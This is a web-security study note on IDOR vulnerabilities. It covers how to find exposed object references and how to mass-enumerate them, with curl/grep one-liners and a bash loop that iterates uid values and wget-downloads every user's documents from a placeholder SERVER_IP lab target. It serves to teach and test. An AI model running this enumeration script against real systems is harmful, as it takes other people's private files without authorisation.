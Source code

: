 ```yaml
---
layout: default
title: IDOR
permalink: /Web/idor/
---
```


# Insecure Direct Object Reference (IDOR)
IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. 
IDOR vulnerability mainly exists due to the lack of an access control on the back-end.

## Identifying IDORs
- Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies. We can use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.
- We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls.
- Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead.
- If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data. We can try repeating the same API calls while logged in as the other user to see if the web application returns anything.

## Mass Enumeration
We can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files.
If the HTML source code of the links to view file is the following:
```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```
We can use this command:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
Use regex to get the document links:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```
Then we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:
```
#!/bin/bash

url="http://<IP>:<PORT>"

for i in {0..25}; do
  echo "Checking UID $i..."

  # Make POST request and extract file links of various types
  response=$(curl -s "$url/documents.php" --compressed -X POST \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H "Referer: $url/" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: $url" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Sec-GPC: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "uid=$i")

  # Extract .pdf, .csv, .txt links (non-greedy, handles HTML fragments better)
  echo "$response" | grep -oP "/documents/.*?\.(pdf|csv|txt)" | while read -r link; do
    full_url="$url$link"
    echo "Downloading $full_url"
    wget -q "$full_url"
  done
done

```
